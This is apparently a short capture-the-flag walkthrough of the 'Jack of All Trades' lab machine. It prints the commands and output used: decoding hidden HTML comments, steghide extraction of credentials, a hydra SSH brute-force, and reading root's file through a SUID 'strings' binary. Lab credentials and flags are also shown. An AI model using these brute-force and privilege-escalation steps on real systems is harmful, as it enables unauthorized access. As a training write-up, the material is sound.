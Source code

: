 # Jack_of_all_trades 

> VOiD | Monday 01 November 2021 10:15:38 AM IST

My IP : 10.8.253.221
Target IP : 10.10.153.54



## PORT 22[http]

<!--Note to self - If I ever get locked out I can get back in at /recovery.php! -->
			<!--  UmVtZW1iZXIgdG8gd2lzaCBKb2hueSBHcmF2ZXMgd2VsbCB3aXRoIGhpcyBjcnlwdG8gam9iaHVudGluZyEgSGlzIGVuY29kaW5nIHN5c3RlbXMgYXJlIGFtYXppbmchIEFsc28gZ290dGEgcmVtZW1iZXIgeW91ciBwYXNzd29yZDogdT9XdEtTcmFxCg== -->

Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq

/recovery.php

<!-- GQ2TOMRXME3TEN3BGZTDOMRWGUZDANRXG42TMZJWG4ZDANRXG42TOMRSGA3TANRVG4ZDOMJXGI3DCNRXG43DMZJXHE3DMMRQGY3TMMRSGA3DONZVG4ZDEMBWGU3TENZQGYZDMOJXGI3DKNTDGIYDOOJWGI3TINZWGYYTEMBWMU3DKNZSGIYDONJXGY3TCNZRG4ZDMMJSGA3DENRRGIYDMNZXGU3TEMRQG42TMMRXME3TENRTGZSTONBXGIZDCMRQGU3DEMBXHA3DCNRSGZQTEMBXGU3DENTBGIYDOMZWGI3DKNZUG4ZDMNZXGM3DQNZZGIYDMYZWGI3DQMRQGZSTMNJXGIZGGMRQGY3DMMRSGA3TKNZSGY2TOMRSG43DMMRQGZSTEMBXGU3TMNRRGY3TGYJSGA3GMNZWGY3TEZJXHE3GGMTGGMZDINZWHE2GGNBUGMZDINQ=  -->

Remember that the credentials to the recovery login are hidden on the homepage! I know how forgetful you are, so here's a hint: bit.ly/2TvYQ2S

https://en.wikipedia.org/wiki/Stegosauria

so we use stego here 
```bash

steghide extract -sf stego.jpg
cat creds.txt                                                              130 ⨯
Hehe. Gotcha!

You're on the right path, but wrong image!




steghide extract -sf header.jpg   
cat cms.creds 
Here you go Jack. Good thing you thought ahead!

Username: jackinthebox
Password: TplFxiSHjY


hydra -l jack -P jackpasses ssh://10.10.153.54 -s 80 -V

[80][ssh] host: 10.10.153.54   login: jack   password: ITMJpGGIqg1jn?>@

scp -P 80 jack@10.10.153.54:/home/jack/user.jpg . 
```

```bash
user.jpg
securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}


-rwsr-x--- 1 root dev 27K Feb 25  2015 /usr/bin/strings


jack@jack-of-all-trades:/tmp$ /usr/bin/strings /root/root.txt
ToDo:
1.Get new penguin skin rug -- surely they won't miss one or two of those blasted creatures?
2.Make T-Rex model!
3.Meet up with Johny for a pint or two
4.Move the body from the garage, maybe my old buddy Bill from the force can help me hide her?
5.Remember to finish that contract for Lisa.
6.Delete this: securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

```






